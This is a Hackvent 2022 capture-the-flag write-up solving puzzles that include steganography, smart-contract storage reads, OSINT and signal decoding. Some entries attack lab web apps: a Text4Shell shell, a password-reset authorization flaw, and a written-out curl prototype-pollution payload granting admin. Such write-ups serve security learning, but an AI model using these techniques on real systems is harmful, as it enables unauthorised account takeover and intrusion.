= Hackvent 2022 write-up
brp64
V1.0, 2022-12-31
:source-highlighter: pygments
:doctype: book
:stem:
:toc:
:toclevels: 1

== [HV22.01] QR means quick reactions, right?


=== Description

Santa's brother Father Musk just bought out a new decoration factory. He sacked
all the developers and tried making his own QR code generator but something
seems off with it. Can you try and see what he's done wrong?

`hackvent2022_01.gif`

****
You can download the GIF from Resources.

Please validate the following sha256sum:

`13cd96068652f0453e3e30cf5354ee47a4ea6fe11e379682225471a1b0ad2ff3`

Flag format: `HV22{}`

_This challenge was provided to you by *Deaths Pirate*. Rumors say, he's found
the One Piece._
****

=== Solution

The .gif contains many frames of a bauble with a single-character QR-code in
each. Decode each frame and concatenate the content to get the flag
`HV22{I_CaN_HaZ_Al_T3h_QRs_Plz}`.

== [HV22.02] Santa's song


=== Description:

Santa has always wanted to compose a song for his elves to cherish their hard
work. Additionally, he set up a vault with a secret access code only he knows!

The elves say that Santa has always liked to hide secret messages in his work
and they think that the vaults combination number may be hidden in the magnum
opus of his.

What are you waiting for? Go on, help the elves!

****
Hint #1: Keep in mind that you are given a web service, not a play button for a song.

Hint #2: As stated in the description, Santa's vault accepts a number, not text.

Start the resource in Resources and get the flag.

Flag format: `HV22{}`

_This challenge was written by *kuyaya*. TODO: <insert joke about myself here> ;)_
****

=== Solution
The container started as part of the resource shows a web application to enter the code:
[.float-group]
--
[.left]
.Image A


[.right]
.Image B

--

The magnum opus contains a song, the notes can be interpreted as characters and read off as:
`bae faced a bad deed` or in one word `baefacedabaddeed`.  If interpreted as a
hexadecimal number and translated into base 10, we can get the flag:

.The flag


== [HV22.03] gh0st


=== Introduction

The elves found this Python script that Rudolph wrote for Santa, but it's
behaving very strangely. It shouldn't even run at all, and yet it does! It's
like there's some kind of ghost in the script! Can you figure out what's going
on and recover the flag?

****
=== Resources:

Download the file `gh0st.py` in the Resources section.

Flag format `HV22{}`

__This challenge was written by 0xdf. Luckily, he's not a ghost yet!__
****

=== Solution

The python file takes an argument and xor'es it with some characters of the
string `song`.  If this then matches with the contents of a list `correct`,
everything is good. The trick is that the string `song` contains embedded NULL
characters that trip python and make the string look different.  

  You know Dasher, and Dancer, and#song += Donder and Blitzen#song += Rudolph, the red-nosed reindeer#song += you would even say it glows.#song += They never let poor Rudolph#song += Santa came to say:#song += Then all the reindeer loved him#song += you'll go down in history!

The xor'ing can be reversed to give the flag by xor'ing the used parts of
`song` with `correct`:

[source,python]
----
res = ''.join(chr(c ^ ord(song[i*10 % len(song)])) \
        for i,c in enumerate(correct))
print(res)
----

This prints the flag `HV22{nUll_bytes_st0mp_cPy7h0n}`

== [HV22.04] Santas radians

=== Description:

Santa, who is a passionate mathematician, has created a small website to train
his animation coding skills. Although Santa lives in the north pole, where the
*degrees* are very low, the website's animation luckily did not freeze. It just
seems to move very slooowww. But how does this help...? The elves think there
might be a flag in the application...

****
Start the resource in Resources and get the flag.



Flag format: `HV22{}`
****

=== Solution
Looking at the screens just shows slowly rotating arcs.  Inspecting the source
code of the website presents us with the script that creates the arc -- nothing
special.  The initial angle positions of the arcs are given by an array, this
is likely the obfuscated flag.

[source,javascript]
----
    const canvas = document.getElementById("canvasPiCode");
    const context = canvas.getContext("2d");

    let rot = [2.5132741228718345, 0.4886921905584123, -1.2566370614359172, 0, 
    	2.548180707911721, -1.9547687622336491, -0.5235987755982988, 
	1.9547687622336491, -0.3141592653589793, 0.6283185307179586, 
	-0.3141592653589793, -1.8151424220741028, 1.361356816555577, 
	0.8377580409572781, -2.443460952792061, 2.3387411976724013, 
	-0.41887902047863906, -0.3141592653589793, -0.5235987755982988,
	-0.24434609527920614, 1.8151424220741028];
    let size = canvas.width / (rot.length+2);

    let animCount = 0;

    function anim() {
        context.clearRect(0,0,canvas.width,canvas.height);
        for (let i = 0; i < rot.length; i++) {
            context.beginPath();
            context.arc((i + 1) * size, canvas.height / 2, size * 2 / 7, rot[i]+animCount+clientX, rot[i] + 5 +animCount+clientX);
            context.stroke();
        }
        animCount+=0.001;
        requestAnimationFrame(anim);
    }
    anim();

----

From the title and the highlighted word in the description, try to convert the
radians of the initial angles of the arcs into degrees and get:

  144 28 -72 0 146 -112 -29 112 -18 36 -18 -104 78 48 -140 133 -24 -18 -29 -14 104

To battle hardened Hackvent participants, the 144 stands out as twice the
ASCII code of 'H'.  So likely, the second number is related to the difference
in ASCII code between the first and the second character.  And yes,
`ord('V')-ord('H') == 14` so this seems thepath.

[source,python]
----
import math

rot = [2.5132741228718345, 0.4886921905584123, -1.2566370614359172, 0, 
  2.548180707911721, -1.9547687622336491, -0.5235987755982988, 
  1.9547687622336491, -0.3141592653589793, 0.6283185307179586, 
  -0.3141592653589793, -1.8151424220741028, 1.361356816555577, 
  0.8377580409572781, -2.443460952792061, 2.3387411976724013,
  -0.41887902047863906, -0.3141592653589793, -0.5235987755982988, 
  -0.24434609527920614, 1.8151424220741028]

deg = [int(v * 180 / math.pi) for v in rot]

chars = [sum(deg[:i+1]) // 2 for i in range(len(deg))]

res = ''.join(chr(c) for c in chars)
print(res)
----

Flag: `HV22{C4lcul8_w1th_PI}`

== [HV22.05] missing gift


=== Introduction:

Like every year the elves were busy all year long making the best toys in
Santas workshop. This year they tried some new fabrication technology. They had
fun using their new machine, but it turns out that the last gift is missing.

Unfortunately, Alabaster who was in charge of making this gift is not around,
because he had to go and fulfill his scout elf duty as an elf on the shelf.

But due to some very lucky circumstances the IT-guy elf was capturing the
network traffic during this exact same time. 

=== Goal:

Can you help Santa and the elves to fabricate this toy and find the secret
message?

****
You can download the file from Resources.

Please validate the following `sha256sum`: +
`0198dace933265d969ba33b52b16420ec0eedff753d18958f19eecfd7af7c026`

Flag format: `HV22{}`

_This challenge was written by *wangibangi*. Truly smart as a fox._
****

=== Solution

The resource contains `tcpdump.pcap`, a packet capture.  Analysing with
wireshark we can extract a  file `hv22.gcode` and have a look at it using
an online viewer, _e.g._ https://gcode.ws/.  It looks like 



== [HV22.06] privacy isn't given


=== Introduction:

As every good IT person, Santa doesn't have all his backups at one place.
Instead, he spread them all over the world.  With this new blockchain
unstoppable technology emerging (except Solana, this chain stops all the time)
he tries to use it as another backup space. To test the feasibility, he only
uploaded one single flag. Fortunately for you, he doesn't understand how
blockchains work.

Can you recover the flag?

=== Information

Start the Docker in the Resources section. You will be able to connect to a
newly created Blockchain. Use the following information to interact with the
challenge.

- Wallet public key `0x28a8746e75304c0780e011bed21c72cd78cd535e`
- Wallet private key +
  `0xa453611d9419d0e56f499079478fd72c37b251a94bfde4d19872c44cf65386e3`
- Contract address: `0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab`

The source code of the contract is the following block of code:

[source,solidity]
----
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;

contract NotSoPrivate {
    address private owner;
    string private flag;

    constructor(string memory _flag) {
        flag = _flag;
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner);
        _;
    }

    function setFlag(string calldata _flag) external onlyOwner {
        flag = _flag;
    }
}
----
////
=== Blockchain 101

Disclaimer: The following guide is not specific to this challenge, but generally
for interacting with smart contracts. It may or may not help you here.

Feeling lost in the blocks? Don't worry, here's a little guide on how to
interact with a smart contract:

- Install Metamask from https://metamask.io/
- Open Metamask and create an account
- After finishing the setup, click the three dots and open up the expanded view.
  Navigate to "Networks" and click "Add a Network". Enter the following Details
  (Network name and Currency symbol can be anything):

.Metamask configuration


- After that, import the private key from the description by clicking on your
  Account > Import Account.  You can now start interacting with the a blockchain
  by visiting https://remix.ethereum.org/. You can create/edit Solidity or Typescript
  files. If you want to interact with a smart contract, create a .sol file and set
  the contents as the source code of the contract. In the sidebar, change to
  "Solidity compiler" and compile the smart contract. Then, select "Deploy" in the
  sidebar and set "Injected provider" or "External Http Provider" as the
  Environment. You may need to authorize your account to connect to remix.
  Finally, fill in the text field next to the "at Address" button with the
  Contract's address and click it. Now you can interact with the contract in
  Remix:

.Remis setup


- Sometimes, it may help doing things programmatically. For JavaScript and
  TypeScript, the popular libraries `web3.js` and `ethers.js` are available, for
  a python solution use `Web3.py`. Be sure to follow the docs of the respective
  libraries.
////
****
Flag format HV22{}

_This challenge was written by *HaCk0*. HaCk0 if you're reading this, can you send
me some ether pleazze?_
****
==== Solution

Following the tutorial, we can connect to the contract in the chain.

Looking at the contract we see that the flag is stored in the contract as part
of the constructor and supposedly private (unreadable except to the owner).
Some googling tells us that the data in the contract are not really private,
but can be read using `web3.eth.getStorageAt()`.  Luckily, Remix provides us
with a console that gives direct access to the API and so we can read the data
directly as:

  web3.eth.getStorageAt("0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab",1,console.log);

which prints
  
  0x485632327b436834316e535f6172335f5075626c31437d00000000000000002e

To the trained eye, this is immediately readable as the flag `HV22{Ch41nS_ar3_Publ1C}`.

== [HV22.07] St. Nicholas's animation

=== Introduction

Santa has found a weird device called an "Oxocard Blockly", which seems to
display a sequence of images. He believes it has got something to do with a QR
code, but it doesn't seem complete...

You can't fly to the north pole, so Santa sent you a video of the device in
action.

The elves are having a karaoke and left in a hurry while singing into
their micro. This means that they aren't there to help him, so now is your
chance to make a good impression and find the flag!

****
Download the video from the Resouces or watch in on YouTube. Find the flag
hidden in the video.

Flag format: `HV22{}`
****

=== Solution

The video shows an animation that explains how the parts of a QR code have to
be re-assembled and then shows the four parts.  Put together they form a
_Micro-QR code_ that not every reader can read...

.The four parts of the microQR-code
[cols="a,a"]
|===
| image::day07/part1.png[,80,]
| image::day07/part2.png[,80,]

| image::day07/part3.png[,80,]
| image::day07/part4.png[,80,]
|===

I found it the easiest to whip up Excel, copy the pixels and use conditional
formatting to get a well readable Micro-QR-code with the flag `HV22{b0f}`.

.Flag as microQR

== [HV22.08] Santa's Virus

=== Description:

A user by the name of HACKventSanta may be spreading viruses. But Santa would
never do that! The elves want you to find more information about this filthy
impersonator.

image::images/hackventsanta.jpg[,200]

****
Flag format: `HV22{}`

_This challenge was created by *yuva*. I swear he doesn't write viruses!_
****

=== Solution

The challenge is labelled as OSINT, so probably we have to find some
information about the evil hacker.  Use
https://www.aware-online.com/en/osint-tools/username-search-tool/ to search for
`HACKventsanta` and find a Linked-in profile using the Bing-search.
https://www.linkedin.com/in/hackventsanta/

Attached to this profile is a reference to a github account and there we find a
single repository (`FILES`) that contains a zip file with a single page that
points us to look at the tags in the repo.  There we find a single tag `HV22`
and in the released files a Linux binary named `undetected`.

A first inspection of `Undetected` using `strings` shows these interesting
messages:

  I am innocent! 
  I am not a hacker 
  This is not a virus 
  I can only give you key which you might need: 
   ThisIsTheKeyToReceiveTheGiftFromSanta 
  But Go ahead and check my md5, I swear I am undetected! 

Apparently, we have to check the md5 hash for whatever reason.  Since this is
supposedly a virus and these are often identified using hashes, check it with
https://www.virustotal.com/gui/home/upload.  It is in fact undetected, but has a
note under community:

.Result a virustotal, community section


This takes us to twitter and we find a few QR-codes in the timeline.  One of
them has a link to Google drive, the others treasures...

.The three QR-codes, only one leads somewhere useful...
[cols="a,a,a"]
|===
| image::day08/part1.png[,200,]
| image::day08/part2.png[,200,]
| image::day08/part3.png[,200,]
|===

The file on Google drive is encrypted, so we need a password.  Fortunately,
`ThisIsTheKeyToReceiveTheGiftFromSanta` fits the bill and we can open the PDF
and see a dancing santa with a base64 string:

.The flag in the PDF


The base64 string gives the flag: `HV22{HOHO+SANTA+GIVES+FLAGS+NOT+VIRUS}`

== [HV22.09] Santa's Text


=== Introduction

Santa recently created some Text with a 🐚, which is said to be vulnerable
code. Santa has put this Text in his library, putting the library in danger. He
doesn't know yet that this could pose a risk to his server. Can you backdoor
the server and find all of Santa's secrets?

Important notice: The challenge runs at port 443, the site that appears when
you click the link in the Resources. All other ports already opened are out of
the challenge scope, do not attack them.

Remember, if you want to use a Reverse Shell, you need to connect to the
Hacking-Lab VPN

****
Start the website in the Resources panel.

Flag format: `HV22{}`

_This challenge was written by yuva. Yuva, can you text Santa what Text he has?_
****

=== Solution

The description hints at a shell in text, searching for `javascript text shell
exploit` leads us to
https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7, which
seems promising.

As an additional twist, any test entered into the search form is returned as
rot13 text, so the payload has to be rot13'ed as well.  Using the exact same
payload as in the link, we can get a shell and find the file `/SANTA/FLAG.txt`
with the flag `HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}` .

== [HV22.10] Notme


=== Introduction

Santa brings you another free gift! We are happy to announce a free note taking
webapp for everybody. No account name restriction, no filtering, no
restrictions and the most important thing: no bugs! Because it cannot be
hacked, Santa decided to name it Notme = Not me you can hack!

Or can you?

****
The challenge scope includes only the main website on port 443, which you get
linked to in the `Resources`. Do not attack other ports.

Start the website from the `Resources` and get the flag.

Flag format: `HV22{}`

_This challenge was written by *HaCk0*. A non-blockchain challenge, what a surprise!_
****

=== Solution

The web app presents us with the possibility to create a user and then record notes for this user.  It is also possible to change the password.  Behind the scenes is a react-app with some REST endpoints:

- `/api/user/me`  GET, returns a JSON with the current user's data
- `/api/note/new` POST, takes the string of the note as a JSON
- `/api/note/all` GET, returns all notes associated with the current user
- `/api/register` POST, takes a `{ "username": "foo", "password": "bar" }` as argument
- `/api/user/` _id_ POST, sets the password for user _id_ (the db key, not the
  username), returns the JSON with all user data

After a lot of searching for vulnerabilities and some hints from _wangibangi_ and _stjubit_, this approach was taken:

- when creating a lot of users from a script, it was noted that the creation of
  the user with id 1337 returns a state 500.  Sending the same request again
  creates the user with id 1338.  So user with id 1337 seems to be special
- similarly, creating many notes for a user shows that the note with id 1337
  seems to exist already.
- when updating the password for a user, it seems that it is not checked that
  the userid corresponds to the logged in user.  So calling `/api/user/1337`
  with an argument of `{ "password": "foo" }` returns 

[source, json]
----
    {"id":1337,
    "role":"user","username":"Santa","password":"2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae","createdAt":"2022-12-11T12:49:04.339Z","updatedAt":"2022-12-11T12:58:00.407Z"}
----

With this approach we know the username of id 1337 and the password, so we can
log in with these to see the note

`HV22{Sql1_is_An_0Ld_Cr4Ft}`

////
== [HV22.11] Santa's Screenshot Render Function


****
**NOT SOLVED**
****
=== Introduction

Santa has been screenshotting NFTs all year. Now that the price has dropped, he
has resorted to screenshotting websites. It's impossible that this may pose a
security risk, is it?

You can find Santa's website here: https://hackvent.deathspirate.com

****
Brute-forcing or fuzzing the web page is not allowed.

Flag format: `HV22{}`

_This challenge was written by *Deaths Pirate*. Unlike me, he doesn't pirate
NFTs! YaaRRRrrr!_
****

=== Solution

Some OSINT first: looking up the dns entries for `hackvent.deathspirate.com`
shows that the servers are hosted at Amazon in Europe:



In the source code of `Index.html` we find references to images hosted at
`hackvent2022.s3.eu-west-2.amazonaws.com`.  So we can try to list the contents
of the bucket using the aws-cli interface:

	$ aws s3 ls s3://hackvent2022/ --recursive
	2022-11-05 18:34:55      57382 3723050.png
	2022-11-06 03:48:24      10936 aws-logo-500x500.webp
	2022-11-05 18:34:56        306 flag1.txt

The file `flag1.txt` has a disappointing message

****
include::day11/flag1.txt[]
****

== [HV22.12] Funny SysAdmin


****
**NOT SOLVED**
****
=== Introduction

Santa wrote his first small script, to track the open gifts on the wishlist.
However the script stopped working a couple of days ago and Santa has been
stuck debugging the script. His sysadmin seems to be a bit funny ;)

==== Goal

Can you find the secret flag on the box?

Start the resources in the Resources section to find out!

Flag format: `HV22{}`

_This challenge was written by *wangibangi*. We do a little trolling! Truly a
funny challenge, enjoyed by everyone universally._

=== Solution

We are presented with a command line, unfortunately configured a bit funny. So
first set up things right:

  santa@b56c1120-438b-4e89-b6d0-e1cdfed52ce3:/home> alias ls='ls --color=never -pFA'
  santa@b56c1120-438b-4e89-b6d0-e1cdfed52ce3:/home> export PS1="\u \!\$ "

Investigating the system is helped by find, but find just prints "404 ...".  It
has been tampered with and so make our own find and add it to the front of the
path:

  santa 3$ ln -s /bin/busybox /home/santa/find
  santa 4$ export PATH=/home/santa:$PATH

In `/home/santa` are two files of interest: `santa-script.sh` and `.ash_history`. From
history we see that the file `/var/log/wishlist.log` seems to be of interest.
Viewing it with `more` fails because of mode `722`-- it is writable by
everyone, but not readable!  We can write to it using `echo "Hallo" >>
/var/log/wishlist.log`, we could even delete its contents if we wanted.

Interestingly, `sudo less /var/list/wishlist` does display the contents...

  Sun Nov 20 15:50:23 UTC 2022
  "Apple iPhone 12"
  "PlayStation 5 Console"
  "Xbox Series S Console"
  ---------
  Sun Nov 20 16:51:23 UTC 2022
  "Apple iPhone 12"
  "PlayStation 5 Console"
  "Xbox Series S Console"
  ---------
  Sun Nov 20 17:51:25 UTC 2022
  "Apple iPhone 12"
  "PlayStation 5 Console"
  "Xbox Series S Console"
  ---------
  Sun Nov 20 18:51:26 UTC 2022
  "Apple iPhone 12"
  "PlayStation 5 Console"
  "Xbox Series S Console"
  ---------
  Hallo

So everything was running until 18:51, something must have happened after this
point in time.  Search for files that were changed since then usind find.
Since we have touched the file,  we cannot use it....  -> restart the container
and find 

- there is `go-dnsmasq` running, from its log file we see that it was started
  at 18:42 on 2022-11-20 but had issues with reading `resolv.conf`.  From 18:46
  until 19:04 the messages stop -- possibly because it was switched off.
- otherwise we see that some startup files in `/etc` have been touched, but
  nothing out of the ordinary.

There are some funny files in `/usr/foobar` and with some very funny content:

  santa 60$ cat /usr/foobar/*
  echo 'https://www.youtube.com/watch?v=dQw4w9WgXcQ'
  echo 'Meow - I like cats'
  echo 'it is in our hands to make a difference'
  echo '404 not found'
  echo 'nope, still no grep here'
  echo 'its gnugrep'
  echo 'I know I am not going to be in your head all the time'
  sl
  echo 'Hit the road Jack and dont you come back no more, no more, no more, no more'
  echo 'netherlands ahoi, 420 blazeit'
  echo 'https://www.youtube.com/watch?v=dQw4w9WgXcQ'
  echo 'https://www.youtube.com/watch?v=dQw4w9WgXcQ'
  echo 'tac.ch'
  echo 'happiness is a wagging tail'
  
Besides now suspecting where _wangibangi_ works, `sl` sticks out as the
contents of the file named `ls`: it is the only one that does not call `echo`.
Have a look at `/usr/bin/sl`  

The environment holds the password for santa:

  HL_USER_PASSWORD=hackvent22
  HL_USER_USERNAME=santa

////

== [HV22.13] Noty 

=== Introduction

After the previous fiasco with multiple bugs in Notme (some intended and some
not), Santa released a now truly secure note taking app for you. Introducing:
Noty, a fixed version of Notme.

Also Santa makes sure that this service runs on green energy. No pollution from
this app ;)

****

The challenge scope includes only the main website on port 443, which you get
linked to in the Resources. Do not attack other ports.

Start the website in the Resources and claim that flag.

Flag format: `HV22{}`

_This challenge was written by *HaCk0*. He's a Challenge knight0!_
****

=== Solution

The description mentions pollution which could be a hint towards _prototype
pollution_ in JS.

Again the application exposes a REST API and so we can try to pollute this API.
There are a few points where we can possibly inject something:

- login
- registering
- creating a note
- changing the password

All were tried and registering a user gave a promising result:

  (host)10022% curl 'https://57955caf-5d9e-421a-93d1-fbf4cb9730be.idocker.vuln.land/api/register' \
  -H 'authority: 57955caf-5d9e-421a-93d1-fbf4cb9730be.idocker.vuln.land' \
  -H 'accept: application/json' \
  -H 'accept-language: en-US,en;q=0.7' \
  -H 'content-type: application/json' \
  -H 'cookie: connect.sid=s%3AQh8fiVWtAq4qogbIyZhkO3cliYrgQOJi.wzD2ZkivcuH8Ju5MDFJVoWNOa5z7bRc6W%2BydkQFZ8mQ' \
  -H 'origin: https://57955caf-5d9e-421a-93d1-fbf4cb9730be.idocker.vuln.land' \
  -H 'referer: https://57955caf-5d9e-421a-93d1-fbf4cb9730be.idocker.vuln.land/register' \
  -H 'sec-ch-ua: "Brave";v="107", "Chromium";v="107", "Not=A?Brand";v="24"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-gpc: 1' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36' \
  --data-raw '{"username": {"__proto__": {"role":"admin", "username":"4"}},"password":"4"}' \
  --compressed

  {"error":"Invalid value { '[object Object]': { role: 'admin', username: '4' } }"}

So the `"\__proto__"` for the end point `/register` is vulnerable.  Next try
`{"\__proto__": {"role":"admin", "username":"4"},"password":"4"}` and get
`{"msg":"Missing username"}`.  Next step is `{"username": "4", "\__proto__":
{"role":"admin"},"password":"4"}` as payload and receive confirmation that we
are now admin:
  
  {"id":4,
   "username":"4",
   "password":"4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a",
   "role":"admin",
   "updatedAt":"2022-12-31T09:50:06.030Z","createdAt":"2022-12-31T09:50:06.030Z"}

Checking the notes in the browser shows the flag:



Or using curl from `/api/note/all` we get

  [{"id":1337,
    "note":"HV22{P0luT1on_1S_B4d_3vERyWhere}",
    "userId":1337,"createdAt":"2022-12-31T10:12:05.677Z","updatedAt":"2022-12-31T10:12:05.677Z"}]

== [HV22.15] Message from Space

=== Introduction

One of Santa's elves is a bit of a drunkard and he is incredibly annoyed by the
banning of beer from soccer stadiums. He is therefore involved in the *"No
Return to ZIro beer"* community that pledges for unrestricted access to hop brew
during soccer games. The topic is sensitive and thus communication needs to be
top secret, so the community members use a special quantum military-grade
encryption radio system.

Santa's wish intel team is not only dedicated to analyzing terrestrial
hand-written wishes but aims to continuously picking up signals and wishes from
outer space too. By chance the team got notice of some secret radio
communication. They notice that the protocol starts with a preamble. However,
the intel team is keen to learn if the message is some sort of wish they should
follow-up. Can you lend a hand?

****
Download the file in the *Resources* and get the flag!

Please verify the following *sha256* integrity of the downloaded file:
`34fac3ba1d5a67db229e75d15f60af75a4ad1ffe9460785e6c597de31d2937b3`

Flag format: `HV22{}`

_This challenge was written by *cbrunsch*. I won't post jokes about my
supervisor😇_
****

=== Solution

The resource is a cu8 file, a relatively low-level signal with the two channels
I and Q (quadrature detection).  The signal can be looked at using _e.g._
Audacity using these import settings:



The signal is a pulse modulated signal and from the hint it is probably encoded
in the "no return to zero inverted" system.  To process the data, first remove
the noise through simple downsampling and then quantizing to 0 and 1.  Then
extract the length of one bit and convert the whole signal into run-length
coded bits (how long is the signal high/low).  Then decode the NRZI and have a
look at the message.

.Start of the averaged input signal, ready for rle


To calibrate the bit-length, the 16 on/off signals at the very beginning can be
taken, but otherwise simply measuring the lengths of the pulses and to
determine the approximately largest divider also does the trick.  The resulting
bit pattern starts with an ASCII sequence that does not really make sense at
first, but gently being pointed at base64 gets the flag.

[source, python]
----
import numpy as np

def amplPhase(raw):
    z = raw[0::2] + 1j*raw[1::2]
    z -= 128.0 + 1j*128.0
    ampl = np.absolute(z)
    phase = np.angle(z)
    maxA = max(ampl)
    ampl = np.uint8(ampl/maxA*250)
    phase = np.uint8(phase / np.pi * 120)
    return ampl, phase

def quantize(dta):
    res = np.zeros(len(dta), dtype=np.bool_)
    thresh = (max(dta) - min(dta)) // 2
    for i in range(len(dta)):
        res[i] = dta[i] >= thresh
    return res

def rllEncode(dta):
    res = []
    last, lastIndex = False, 0
    for i in range(1, len(dta)):
        if dta[i] != last:
            l = i - lastIndex
            res.append((last, l))
            last, lastIndex = dta[i], i
    return res

def scaleByPreamble(dta):
    nPre = 8*2
    preamble = dta[1:nPre] 
    local_sum = sum(n for _, n in preamble)
    print(preamble)
    avg = local_sum / (nPre - 1)
    print(avg)
    return [(t, int(round(n / avg))) for t, n in dta[1:]]

def nrtzi(dta):
    res = '0'
    for (_,n) in dta[1:]:
        res += '1' + '0'*(n-1)
    return res

def removeStuffBits(dta):
    res = ''
    n_ones = 0
    for i in range(len(dta)):
        val = dta[i]
        if n_ones == 5:
            if val == '0':  # we have a frame marker
                n_ones += 1
                res += val
            else:
                n_ones = 0
                print(f'dropping a 0: {dta[i - 6:i]}')
        else:
            if val == '0':
                n_ones += 1
            else:
                n_ones = 0
            res += val
    return res

def pr(dta, offset, bits, rev=False):
    res = ''
    for i in range(offset, len(dta), bits):
        tmp = dta[i:i+bits]
        if rev:
            tmp = tmp[::-1]
        c = int(tmp,2) & 0x7f
        if c>=0x20 and c<ord('}'):
            res += chr(c)
        else: 
            res += ' '
    print(res)        

if __name__ == '__main__':
    raw = np.fromfile('message_1msps.cu8', dtype=np.uint8)

    a,ph = amplPhase(raw)
    # split into packets of 64, average
    a = np.reshape(a, (-1,64))
    smooth = np.uint8(np.average(a, axis=1))
    
    quantized = quantize(smooth)
    rll = rllEncode(quantized)
    
    sc = scaleByPreamble(rll)
    bits = nrtzi(sc)
    print(f'bits: {len(bits)} bit, {len(bits)//8} bytes')
    msg = removeStuffBits(bits)

    # search7bit(msg)
    for i in range(0,8):
        pr(bits, i, 8, rev=False)
----

This program prints amongst other results the string

  SFYyMnt2LXdpc2gtdi1nMHQtYjMzcn0=FYyMnt2LXdpc2gtdi1nMHQtYjMzcn0

When base64 decoded, this creates the Flag `HV22{v-wish-v-g0t-b33r}`. 

== [HV22.16] Needle in a qrstack

=== Introduction

Santa has lost his flag in a qrstack - it is really like finding a needle in a
haystack.

Can you help him find it?

****
Please verify the following `sha256` integrity of the downloaded image:
`33dde8be7f185009395d361c80584f7618e9e85b1da1fb1bc96b0333d2a2bb7c`

Flag format: `HV22{}`

_This challenge was written by *dr_nick.* Credit where credit is due 😉_
****

=== Solution

We are given a file `haystack.png` that contains kind of a QR-code with the
message `Sorry, no flag here!`.  But the black tiles are not black, but are
themselves made of QR-codes:

[cols="a,a"]
|===
| image::day16/example1.png[,150,float="right"]
| image::day16/example2.png[,150,float="right"]
|===

After playing around with OpenCV for some time to decode the QR-codes and
failed, this approach was taken:

1. Take `haystack.png` and verify that really only two colours are used (no
   nasty tricks with palettes...)

2. Extract the tiles from `haystack.png` and discard the white tiles

3. With the remaining tiles, run a QR-code scanner and get the message.

4. recusively repeat with the tile quartered until the tiles are smaller than
   25 by 25 pixels 

5. sift through the messages for one that is different from `Sorry, no flag here!`

Use python for implementation.  The second step needs to use OpenCV since PIL
bombs out with a suspected DOS bomb.

Flag is `HV22{1'm_y0ur_need13.}`

[source, python]
----
import cv2
import numpy as np
from PIL import Image
from pyzbar.pyzbar import decode

# first split the image into the small boxes
# since the image is 24800 x 24800 pixels, PIL bombs
# so use OpenCV

def isAllWhite(dta):
    return not any((line[:, :] != 255).any() for line in dta)

def getTiles():
    image = cv2.imread('haystack.png')
    x,y = 24800, 24800
    h = x // 31
    imgs = []
    for ix, iy in itertools.product(range(0, x, h), range(0, y, h)):
        cropped = image[ix:ix + h, iy:iy + h]
        if not isAllWhite(cropped):
            imgs.append(cropped)

    print(f'{len(imgs)} tiles that are not white')
    return imgs

def handleTile(tile):
    allTiles = [tile]
    allTiles.extend(
        cv2.rotate(tile, op)
        for op in [
            cv2.ROTATE_90_CLOCKWISE,
            cv2.ROTATE_180,
            cv2.ROTATE_90_COUNTERCLOCKWISE,
        ]
    )
    for t in allTiles:
        data = decode(Image.fromarray(t))
        if len(data)>0:
            foundText = data[0].data.decode()
            if foundText != 'Sorry, no flag here!':
                print(f'tile with code {foundText}')
            return

def analyseTile(tile):
    handleTile(tile)
    size = len(tile)
    if size > 25:
        new_size = size // 2
        for x, y in itertools.product(range(0, size, new_size), range(0, size, new_size)):
            new_tile = tile[x:x + new_size, y:y + new_size]
            if not isAllWhite(new_tile):
                analyseTile(new_tile)

if __name__ == '__main__':
    imgs = getTiles()
    for img in imgs:
        analyseTile(img)
----

== [HV22.17] Santa's Sleigh

=== Introduction

As everyone seems to modernize, Santa has bought a new E-Sleigh. Unfortunately,
its speed is limited. Without the sleight's full capabilities, Santa can't
manage to visit all kids... so he asked Rudolf to hack the sleigh for him.

I wonder if it worked.

Unfortunately, Rudolph is already on holiday. He seems to be in a strop because
no one needs him to pull the sledge now. We only got this raw data file he sent
us.

=== Hints
****
[cols="a,a"]
|===
| - Rodolph is heavy on duty during his holiday trip, but he managed to send und
  at least a photo of his first step.
| image::images/lcd_connector.jpg[,200,]

|- Rudolf finally wants some peace and quiet on vacation. But send us one last
  message together with a picture: "I thought they speak 8 or 7 N1"
| image::images/sniff.png[,300,float="right"]
|===

Download the file in the `Resources` section and find the flag!

Flag format: `HV22{}`

_This challenge was written by *dr_nick*. E-Scooter hax incoming?_
****

=== Solution

The file `SantasSleigh.raw` is a pure ASCII text file containing only the
numbers 0-3.  With the second hint, this seems to indicate that this
corresponds to the two bits recorded.  So combine the bits into separate
strings.

Looking at the extracted strings, it is noticed that `0` and `1` seem to occur
in bunches that are multiples of four in length.  Some statistics show that
this is correct for shorter packets, longer packets can be off by one.  A
histogram for bit 0 looks like this (length: count):

  {8: 92, 342: 1, 4: 203, 20: 9, 12: 49, 16: 19, 24: 7, 803: 1, 1169: 1, 812: 1, 293: 1}

So it is likely that we can subsample the string to get the real sequence of bits:

[source, python]
----
def rllStatistics(dta):
    res = ''
    count = {}
    last, lastIndex = dta[0], 2
    for i in range(3,len(dta)):        
        if dta[i] != last:
            l = i - lastIndex
            n_char = int(round(l/4))
            res += last*n_char
            if l in count:
                count[l] += 1
            else:
                count[l] = 1
            last = dta[i]
            lastIndex = i
    print(count)       
    return res
----

From now on it was guessing: we have a crib of `HV22` and can search in this
pile of bits for occurrences of these characters.  Since we do not know the
bit-ordering, just test for both orderings and only look at packets of 7 bit
lengths:

[source, python]
----
def searchCrib(dta, rev=False):
    occurrences1 = {'H':[], 'V': [], '2':[]}
    res = ''
    for j in range(len(dta)):
        tmp = dta[j:j+7]
        if rev:
            tmp = tmp[::-1]
        c1= chr(int(tmp,2) & 0x7f)
        if c1 in occurrences1:
            occurrences1[c1].append(j)
    if rev:
        print ('reversed bit order')
    print(occurrences1)    
----

This prints for "bit0" and reversed:

